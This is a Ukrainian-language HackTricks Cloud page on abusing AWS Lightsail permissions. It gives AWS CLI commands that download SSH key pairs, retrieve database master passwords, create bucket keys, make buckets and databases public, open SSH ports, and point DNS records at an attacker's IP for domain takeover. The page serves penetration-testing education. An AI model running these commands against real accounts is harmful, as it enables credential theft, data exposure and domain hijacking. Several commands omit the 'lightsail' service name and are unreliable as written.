 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Для отримання додаткової інформації про Lightsail перегляньте:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Важливо зазначити, що Lightsail **не використовує IAM ролі, що належать користувачу**, а належать керованому обліковому запису AWS, тому ви не можете зловживати цією службою для підвищення привілеїв. Однак, **чутливі дані**, такі як код, API ключі та інформація про базу даних, можуть бути знайдені в цій службі.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Цей дозвіл дозволить вам отримати SSH ключі для доступу до інстансів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:GetInstanceAccessDetails`

Ця дозволена дія дозволить вам генерувати SSH-ключі для доступу до інстансів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині екземплярів.

### `lightsail:CreateBucketAccessKey`

Ця дозволена дія дозволить вам отримати ключ для доступу до кошика:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині бакету.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ця дозволена дія дозволить вам отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:UpdateRelationalDatabase`

Ця дозволена дія дозволить вам змінити пароль для доступу до бази даних:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Якщо база даних не є публічною, ви також можете зробити її публічною з цими дозволами за допомогою

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:OpenInstancePublicPorts`

Цей дозвіл дозволяє відкривати порти для Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету. Зверніть увагу, що виклик закриє будь-який порт, який не вказаний у ньому.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Ця дозволяє надати екземплярам доступ до кошика без додаткових облікових даних

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateBucket`

З цією дозволом зловмисник може надати своєму обліковому запису AWS доступ для читання до бакетів або навіть зробити бакети публічними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateContainerService`

З цими правами атакуючий може надати доступ до приватних ECR з сервісу контейнерів.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Потенційний вплив:** Отримати чутливу інформацію з приватного ECR

### `lightsail:CreateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (взяття піддомену під контроль), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

### `lightsail:UpdateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (захоплення піддомену), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
